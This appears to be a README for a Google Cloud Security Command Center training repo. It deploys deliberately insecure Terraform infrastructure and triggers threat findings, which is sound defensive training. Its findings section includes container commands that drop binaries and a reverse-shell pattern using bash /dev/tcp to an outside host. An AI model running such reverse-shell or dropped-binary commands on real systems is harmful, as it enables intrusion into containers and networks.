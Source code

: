 # Secure Command Center Training

## Purpose

This repository aims to learn Security Command Center by detecting an insecure infrastructure findings in a development environment.

## Prerequisites

To run the commands described in this document, you need to have the following
installed:

- The [Google Cloud SDK](https://cloud.google.com/sdk/install) version 319.0.0 or later
- [Terraform](https://www.terraform.io/downloads.html) version 0.13.6.
- An existing project and GCS Bucket to store Terraform state

**Note:** Make sure that you use the same version of Terraform throughout this
series. Otherwise, you might experience Terraform state snapshot lock errors.

## Update variables

1. Change to deployment directory
   ```
   cd envs/development
   ```
1. Update `backend.tf` with an existing GCS bucket to store Terraform state.
   ```
   bucket = "UPDATE_ME"
   ```
1. Rename `terraform.example.tfvars` to `terraform.tfvars` and update the file with values from your environment:
   ```
   mv terraform.example.tfvars terraform.tfvars
   ```
1. Update required  variables
   
## Deploy Insecure Infrastructure

### Deploy from a desktop

1. Run `terraform init`
1. Run `terraform plan` and review the output.
1. Run `terraform apply`

## Generate Threat Findings

While several findings will automatically trigger during the deployment, the following instructions can be leveraged to trigger Container Threat Detection and Data exfiltration findings.

1. Set variables 
```
export PROJECT_ID=YOUR_PROJECT_ID
export GKE_CLUSTER=YOUR_GKE_CLUSTER_NAME
```
1. Download Cluster credentials
```
gcloud container clusters get-credentials $GKE_CLUSTER \
 --zone us-central1 \
 --project $PROJECT_ID
```
1. Add a binary to a running container
```
tag="dropped-binary-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /bin/ls /tmp/$tag; /tmp/$tag"
```
1. Add a library to a running container
```
tag="dropped-library-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "cp /lib/x86_64-linux-gnu/libc.so.6 /tmp/$tag; /lib64/ld-linux-x86-64.so.2 /tmp/$tag"
```

1. Start a reverse shell in running container
```
tag="reverse-shell-$(date +%Y-%m-%d-%H-%M-%S)"
kubectl run --restart=Never --rm=true --wait=true -i \
--image marketplace.gcr.io/google/ubuntu1804:latest \
"$tag" -- bash -c "/bin/echo >& /dev/tcp/8.8.8.8/53 0>&1"
```

### Optional Deploy a Cloud Build environment

1. Deploy Bootstrap environment from [Cloud Foundation Toolkit](https://github.com/terraform-google-modules/terraform-example-foundation/tree/master/0-bootstrap)

1. Add cloud_source_repos to terraform.tfvars file to build gcp-scc-training repo in 0-bootstrap

   ```
   cloud_source_repos = ["gcp-org", "gcp-environments", "gcp-networks", "gcp-projects", "gcp-scc-training"]
   ```
1. Run `terraform apply`

#### Deploy from Cloud Build pipeline

1. Clone the empty gcp-scc-training repo.
   ```
   gcloud source repos clone gcp-scc-training --project=YOUR_CLOUD_BUILD_PROJECT_ID_FROM_0-bootstrap
   ```
1. Navigate into the repo and change to a non-production branch.
   ```
   cd gcp-scc-training
   git checkout -b plan
   ```
1. Copy the development environment directory and cloud build configuration files
   ```
   cp -r ../gcp_scc_training/envs  .
   cp ../gcp_scc_training/build/*  . 
   ```
1. Ensure wrapper script can be executed.
   ```
   chmod 755 ./tf-wrapper.sh
   ```
1. Commit changes.
   ```
   git add .
   git commit -m 'Your message'
   ```
1. Push your plan branch to trigger a plan. For this command, the branch `plan` is not a special one. Any branch which name is different from `development`, `non-production` or `production` will trigger a Terraform plan.
   ```
   git push --set-upstream origin plan
   ```
1. Review the plan output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID
1. Merge changes to production branch.
   ```
   git checkout -b development
   git push origin development
   ```
1. Review the apply output in your Cloud Build project. https://console.cloud.google.com/cloud-build/builds?project=YOUR_CLOUD_BUILD_PROJECT_ID

1. Destroy the infrastructure with gcloud build command
   ```
   gcloud builds submit . --config=cloudbuild-tf-destroy.yaml --project your_build_project_id --substitutions=BRANCH_NAME="$(git branch 2> /dev/null | sed -e '/^[^*]/d' -e 's/* \(.*\)/\1/')",_ARTIFACT_BUCKET_NAME='Your Artifact GCS Bucket',_STATE_BUCKET_NAME='Your Terraform GCS bucket',_DEFAULT_REGION='us-central1',_GAR_REPOSITORY='prj-tf-runners'
   ```

